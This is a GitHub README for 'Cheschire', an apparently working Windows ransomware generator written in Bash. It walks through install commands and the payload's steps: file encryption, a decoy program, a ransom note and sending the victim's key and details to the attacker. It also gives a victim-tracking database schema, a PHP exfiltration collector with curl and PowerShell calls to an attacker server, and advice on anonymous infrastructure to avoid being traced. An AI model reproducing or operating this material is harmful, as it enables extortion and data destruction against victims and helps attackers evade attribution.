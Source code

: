# Cheschire

[![Version](https://img.shields.io/badge/Version-1.0-blue.svg?style=for-the-badge)]()
[![Language](https://img.shields.io/badge/Bash-4.2%2B-brightgreen.svg?style=for-the-badge)]()
[![Available](https://img.shields.io/badge/Available-Debian-orange.svg?style=for-the-badge)]()
[![Available](https://img.shields.io/badge/Target-Windows-blue.svg?style=for-the-badge)]()
[![Download](https://img.shields.io/badge/Size-260K-brightgreen.svg?style=for-the-badge)]()
[![License](https://img.shields.io/badge/License-GPL%20v3%2B-red.svg?style=for-the-badge)](https://github.com/hacknonym/Cheschire/blob/master/LICENSE)

### Author: github.com/hacknonym

## A Windows Ransomware

![Banner](https://user-images.githubusercontent.com/55319869/87875498-d65d2d80-c9d1-11ea-98af-b7b989868d0a.PNG)

**Cheschire** generate executable ranwomware for Windows target. #cheschire #ransomware
# Using the AES encryption algorithm powershell module from https://github.com/thelinuxchoice/hidden-cry.git

## Legal disclaimer

Usage of **Cheschire** for attacking targets without prior mutual consent is illegal.
Do not use in military or secret service organizations, or for illegal purposes.
It's the end user's responsibility to obey all applicable local, state and federal laws. 
Developer assume no liability and is not responsible for any misuse or damage caused by this program.

## Features !
 - Specify location where to start encryption *e.g. ($home)*
 - Specify a specific extension *e.g. (.cheschire)*
 - Specify a ransom amount
 - Specify a Bitcoin address
 - Specify a decoy program *e.g. (avast antivirus)*
 - Specify a specific wallpaper
 - Specify speficic extensions *e.g. (.jpg, .docx)*
 - Specify a icon for the main program

## Installation and Usage
Necessary to have root rights
```bash
git clone https://github.com/hacknonym/Cheschire.git
cd Cheschire
sudo chmod +x displaydb.sh
sudo chmod +x listener.sh
sudo chmod +x cheschire.sh
sudo ./cheschire.sh
```
To compile the generated files, use [**Bat_to_Exe_Converter**.](https://bat-to-exe-converter-x64.en.softonic.com/) 

## Operating steps
**Ransomware (.exe) steps**
- Move to the directory ``` %APPDATA% ```
- Launch of the integrated decoy program, *e.g. avast.exe*
- Creation of the directory ``` %USERPROFILE%\Documents\WindowsPowerShell\Modules\Cipher ```
- Move to the directory ``` %USERPROFILE%\Documents\WindowsPowerShell\Modules\Cipher ```
- Creation of the file __Cipher.psm1__
- Random generation of an identifier of the form {xxx-xxx-xxx}
- Creation of the file __cry.ps1__
- Launch of the file __cry.ps1__
  * Random generation of a secret key, *e.g. o6nklwri0s4d39hc7gxmzv5qlgy1xc4eu3a2dr7h8i0=*
  * Encoding information in Base64
  * Sending the encoded information (secret key, ID, Date, Time, Username, Computer Name, Public IP) to the hacker via [RequestBin](https://requestbin.io/)
  * Import module __Cipher.psm1__ and start encryption on the specified extensions
- Move to the directory ``` %USERPROFILE%\Desktop ```
- Creation of the file __readme.html__
- Launch of the file __readme.html__
- Copy the file ``` %APPDATA%\decrypt0r.exe ``` to ``` %USERPROFILE%\Desktop\ ```
- Changing the wallpaper with ``` %APPDATA%\wallpaper.jpg ```
- Deleting files embedded in ``` %APPDATA% ``` (avast.exe, wallpaper.jpg, decrypt0r.exe)

**decrypt0r.exe steps**
- Creation of the directory ``` %USERPROFILE%\Documents\WindowsPowerShell\Modules\decry ```
- Move to the directory ``` %USERPROFILE%\Documents\WindowsPowerShell\Modules\decry ```
- Creation of the file __decry.psm1__
- Creation of the file __decryGUI.ps1__
- Launch of the file __decryGUI.ps1__
  * Opening a graphic window (GUI) to enter the secret key
  * If the field is not empty then we try to decrypt the files and if the files have been decrypted then delete the files (decry.psm1, decryGUI.ps1) in ``` %USERPROFILE%\Documents\WindowsPowerShell\Modules\decry ``` otherwise if the field is empty or the key incorrect, nothing happens (closing the window)
  
## Using MySQL DataBase
Creating a new user
```bash
mysql> CREATE USER 'newuser'@'localhost' IDENTIFIED BY 'password';
mysql> GRANT ALL PRIVILEGES ON Cheschire.* TO 'newuser'@'localhost';
```
Once the new user has been created, specify credentials in the **ident.txt** file
<br />**Default credentials**
```text
DBNAME : Cheschire
USERNAME : root
PASSWORD : 
```

DATABASE NAME: **Cheschire**
| TABLES |
|  :------:  |
|  Victim  |
|  Country |

**Victim** TABLE
| Field | Type | Null | Key | Default | Extra |
| --- | --- | --- | --- |--- |--- |
| Id_Victim | int(11) | NO | PRI | NULL | auto_increment |
| Date_Compromise | datetime | YES |  | NULL |  |
| IP_Address | varchar(15) | YES |  | NULL |  |
| ISP | text | YES |  | NULL |  |
| Country | varchar(2) | YES | MUL | NULL |  |
| Region | text | YES |  | NULL |  |
| City | text | YES |  | NULL |  |
| Timezone | varchar(100) | YES |  | NULL |  |
| User_Name | varchar(50) | YES |  | NULL |  |
| Computer_Name | varchar(50) | YES |  | NULL |  |
| Ident | varchar(17) | YES |  | NULL |  |
| Secret_Key |  varchar(45) | YES |  | NULL |  |

**Country** TABLE
| Field | Type | Null | Key | Default | Extra |
| --- | --- | --- | --- |--- | --- |
| Id_Country | varchar(2) | NO | PRI | NULL |  |
| Name | varchar(60) | NO |  | NULL |  |

## Why use RequestBin to send information
It is quite possible to send the information through an HTTP request directly to our server without going through a service provider
**index.php**
```php
<?php
if(isset($_GET["query"])){
    $file = fopen("output.txt", "a+");
    fwrite($file, $_GET['query']."\n");
}
?>
```
Launch the server
```bash
$> php -S 0.0.0.0:8080
```
Send a request from Windows (Command Prompt & PowerShell)
```PowerShell
cmd> curl http://<IP_SERVER>:8080/?query=Hello World

PS> (New-Object System.Net.WebClient).DownloadString("http://<IP_SERVER>:8080/?query=" + "Hello World")
```
However for the victim to be able to send information, our server must be accessible
by Internet (if not on the same local network). But by making accessible
the server from the Internet, we expose ourselves to risks concerning our identity.
Indeed, if the victim analyzes his outgoing connection logs, the public IP address of the
remote server (our HTTP server) will be displayed in plain text while sending information.

## Why use Bat_to_Exe_Convertor to compile
For all this to work, we need to have 3 files
- the decryption program (.exe)
- a wallpaper (.jpg)
- a decoy program (.exe)

It is impossible to integrate these three files inside an executable (e.g. in a
C program), it would then be necessary to download them from the Internet
on the target machine (if not on the same local network), but it would be necessary
to take adequate measures regarding the anonymity of the server from which these
files would be downloaded, in this case it is therefore imperative to use
- Relay servers
- Anonymous VPS
- External service providers (e.g. https://www.mediafire.com/, http://ge.tt/, etc.)

In addition, this does not exclude a potential blockage of certain
ports, services, IP addresses due to a firewall, which would prevent us from
download our files.

## Tools Overview
![Create Ransomware](https://user-images.githubusercontent.com/55319869/87853921-5ae67800-c90e-11ea-9c51-f1d5bacc8fdf.png)
![Check & Compile info](https://user-images.githubusercontent.com/55319869/87853923-5c17a500-c90e-11ea-8fb6-c4881e41f270.png)
![DATABASE interactions](https://user-images.githubusercontent.com/55319869/87853925-5d48d200-c90e-11ea-9712-4a5dbb8defe6.png)
![List victims from the DATABASE](https://user-images.githubusercontent.com/55319869/87853926-5e79ff00-c90e-11ea-80a9-730a1275804e.png)
![Number of victims](https://user-images.githubusercontent.com/55319869/87853928-5fab2c00-c90e-11ea-81ec-f220e7daf716.png)
![Instructions](https://user-images.githubusercontent.com/55319869/87875372-2091df00-c9d1-11ea-9e25-59b2647b3bb7.png)
![Decryptor](https://user-images.githubusercontent.com/55319869/89562030-a8714900-d819-11ea-8df5-2d9a3e31d2d9.PNG)

## License
GNU General Public License v3.0 for Cheschire
AUTHOR: @hacknonym

